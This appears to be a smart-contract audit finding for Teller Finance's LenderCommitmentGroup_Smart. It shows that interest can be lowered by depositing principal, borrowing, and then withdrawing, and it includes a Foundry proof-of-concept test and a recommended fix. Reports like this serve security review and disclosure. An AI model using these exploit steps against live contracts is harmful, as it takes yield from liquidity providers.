 Little Sapphire Lobster

high

# Interest rate in `LenderCommitmentGroup_Smart` may be easily manipulated by depositing, taking a loan and withdrawing

## Summary

`LenderCommitmentGroup_Smart` gets the interest directly from the utilization ratio, which may be gamed and a loan may be taken with lower interest rate at no risk.

## Vulnerability Detail

The utilization ratio is the ratio between ongoing loans and principal deposited (plus interest and/minus liquidation premiums). As the values used for its calculations are the most recent ones and there is no constraint on depositing, borrowing or withdrawing in different periods, it is easy for borrowers to pick much better interest rates. The attack can be carried out as follows:
1. Deposit principal by calling `LenderCommitmentGroup_Smart::addPrincipalToCommitmentGroup()`.
2. Take the loan out with the reduced interest rate.
3. Withdraw the shares corresponding to the borrowed principal.
This attack was simulated in the following POC, which should be inserted in the test file in issue 'Drained lender due to LenderCommitmentGroup_Smart::acceptFundsForAcceptBid() _collateralAmount by STANDARD_EXPANSION_FACTOR multiplication':
```solidity
function test_POC_bypassInterestRate() public {
    uint256 principalAmount = 1000e18;
    deal(address(DAI), user, principalAmount);
    vm.startPrank(user);

    // add principal to lender to get shares
    DAI.approve(address(lender), principalAmount);
    uint256 shares = lender.addPrincipalToCommitmentGroup(principalAmount, user);

    // approve the forwarder
    tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

    // borrow the principal
    uint256 collateralAmount = 1e18;
    uint256 loanAmount = principalAmount / 2;
    deal(address(WETH), user, collateralAmount);
    WETH.approve(address(collateralManager), collateralAmount);
    uint256 bidId = smartCommitmentForwarder.acceptCommitmentWithRecipient(
        address(lender),
        loanAmount,
        collateralAmount,
        0,
        address(WETH),
        user,
        0,
        2 days
    );
    vm.stopPrank();

    principalAmount = 500e18;
    deal(address(DAI), attacker, principalAmount);

    // attacker deposits principal, takes a loan and withdraws principal
    // getting a much better interest rate

    vm.startPrank(attacker);

    // add principal to lender to get shares
    // if the line below is commented, interest rate would be 400 instead of 266
    DAI.approve(address(lender), principalAmount);
    shares = lender.addPrincipalToCommitmentGroup(principalAmount, attacker);

    // approve the forwarder
    tellerV2.approveMarketForwarder(marketId, address(smartCommitmentForwarder));

    assertEq(lender.getMinInterestRate(), 266);

    // borrow the principal
    collateralAmount = 1e18;
    loanAmount = principalAmount;
    deal(address(WETH), attacker, collateralAmount);
    WETH.approve(address(collateralManager), collateralAmount);
    bidId = smartCommitmentForwarder.acceptCommitmentWithRecipient(
        address(lender),
        loanAmount,
        collateralAmount,
        0,
        address(WETH),
        attacker,
        lender.getMinInterestRate(),
        2 days
    );

    // attacker withdraws the DAI deposit
    // poolSharesToken are burned incorrectly before calculating exchange rate
    // so this must be fixed or exchange rate will be 1
    vm.mockCall(
        address(lender.poolSharesToken()), 
        abi.encodeWithSignature("burn(address,uint256)", attacker, shares),
        ""
    );
    lender.burnSharesToWithdrawEarnings(shares, attacker);

    // all principal was withdrawn for loans but attacker got a decent interest rate
    assertEq(lender.getPrincipalAmountAvailableToBorrow(), 0);

    vm.stopPrank();
}
```

## Impact

Less yield for LPs due to the borrower getting much better interest rates for free.

## Code Snippet

[LenderCommitmentGroup_Smart::getPoolUtilizationRatio()](https://github.com/sherlock-audit/2024-04-teller-finance/blob/main/teller-protocol-v2-audit-2024/packages/contracts/contracts/LenderCommitmentForwarder/extensions/LenderCommitmentGroup/LenderCommitmentGroup_Smart.sol#L757)
```solidity
function getPoolUtilizationRatio() public view returns (uint16) {

    if (getPoolTotalEstimatedValue() == 0) {
        return 0;
    }

    return uint16(  Math.min(   
        getTotalPrincipalTokensOutstandingInActiveLoans()  * 10000  / 
        getPoolTotalEstimatedValue() , 10000  ));
}   
```

## Tool used

Manual Review

Vscode

Foundry

## Recommendation

LPs could require a small delay to burn their shares to prevent abuses such as this one. 